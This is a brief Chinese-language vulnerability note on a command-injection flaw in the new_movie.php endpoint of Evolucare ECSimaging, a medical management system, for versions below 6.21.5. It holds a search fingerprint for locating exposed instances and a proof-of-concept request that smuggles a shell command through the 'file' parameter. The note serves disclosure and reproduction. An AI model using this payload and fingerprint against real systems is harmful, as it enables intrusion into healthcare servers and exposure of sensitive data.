

# Evolucare Ecsimaging new_movie.php 远程命令执行漏洞

## 漏洞描述

EVOLUCARE ECSimage是一款国外使用的医疗管理系统，研究发现其new_movie.php接口中存在命令注入漏洞,攻击者可利用该漏洞获取系统敏感信息等.

## 漏洞影响

<a-checkbox checked>EVOLUCARE Evolucare Ecsimaging 版本< 6.21.5</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="ECSimaging"</a-checkbox></br>

## 漏洞复现

登录页面


验证POC

```javascript
/new_movie.php?studyUID=1&start=2&end=2&file=1;pwd
```

